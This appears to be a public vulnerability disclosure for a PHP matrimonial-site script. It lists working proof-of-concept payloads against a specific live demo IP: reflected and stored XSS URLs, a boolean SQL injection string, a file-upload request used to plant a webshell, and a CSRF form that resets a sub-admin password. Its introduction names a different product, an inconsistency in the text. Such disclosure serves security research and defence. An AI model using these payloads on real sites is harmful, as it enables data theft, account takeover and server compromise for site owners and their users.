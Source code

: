 ### Muslim Matrimonial Script- the lastest version - SQL Injection/Stored-XSS/Reflect-XSS/Arbitrary-File-Uploading/CSRF

#### ADLab of Venustech

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

##### XSS1

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_edit.php?edit_id=17%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss1.png)

##### XSS2

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/slider_edit.php?edit_id=1%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss2.png)

##### XSS3

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/state_view.php?cou_id=%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss3.png)

##### XSS4

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/caste_view.php?comm_id=46%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss4.png)


##### Stored-XSS


```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_add.php
```

POST parameters:

```
------WebKitFormBoundarypSOX4YzB8lLca9QI
Content-Disposition: form-data; name="event_title"

test'"><svg/onload=alert(/xss/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sxss.png)


#### SQL Injection:

##### sqli

The original parameter:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=NDk=
```

Base64Decode the parameter, and add payload:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=49' AND 6882=6882 AND 'qpug'='qpug
```

Then we can use the tamper script to attack the weak link.


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sqli.png)


#### Arbitrary-File-Uploading

There is an arbitrary-file-uploading, we can upload any type files with evil content.

Weak url:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/mydetails_edit.php?u_id=xxx
```

Post parameter:
```
------WebKitFormBoundary6LBE6fQ0BdnKYrgo
Content-Disposition: form-data; name="user_photo"; filename="xxx.xxx"
Content-Type: application/octet-stream

evil-content
```



Then we'll get a evil file here:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/uploads/xxx.xxx
```

Run command in the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload1.png)

Operate the folders and files through the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload2.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even change the password or insert evil content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://74.124.215.220/~projclient/client/muslim-matrimony/admin/subadmin_edit.php?edit_id=9999" method="POST">
      <input type="hidden" name="sub&#95;id" value="9999" />
      <input type="hidden" name="name" value="test123" />
      <input type="hidden" name="email" value="parguinet&#64;gmail&#46;com" />
      <input type="hidden" name="pass" value="666" />
      <input type="hidden" name="cpass" value="666" />
      <input type="hidden" name="submit" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
  </body>


```

This vulnerability does not need evil attacker to login into the user panel.

